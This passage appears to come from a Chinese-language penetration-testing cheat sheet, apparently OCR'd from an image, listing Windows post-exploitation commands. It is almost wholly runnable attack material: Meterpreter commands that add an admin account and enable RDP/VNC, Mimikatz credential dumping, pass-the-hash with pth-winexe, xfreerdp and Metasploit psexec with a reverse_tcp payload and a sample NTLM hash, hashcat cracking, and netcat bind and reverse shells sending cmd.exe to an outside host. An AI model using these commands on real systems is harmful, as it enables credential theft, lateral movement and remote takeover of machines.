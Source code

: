 Meterpreter VNC\RDP

# https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
run getgui -u admin -p 1234
run vnc -p 5043
```
使用 Mimikatz

获取 Windows 明文用户名密码
```
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
```
获取哈希值
```
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd
```
或者
```
apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP
```
在或者
```
meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
```
使用 Hashcat 破解密码
```
hashcat -m 400 -a 0 hash /root/rockyou.txt
```
使用 NC 抓取 Banner 信息
```
nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0
Referrer: www.example.com
<enter>
<enter>
```
使用 NC 在 Windows 上反弹 shell
```
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80
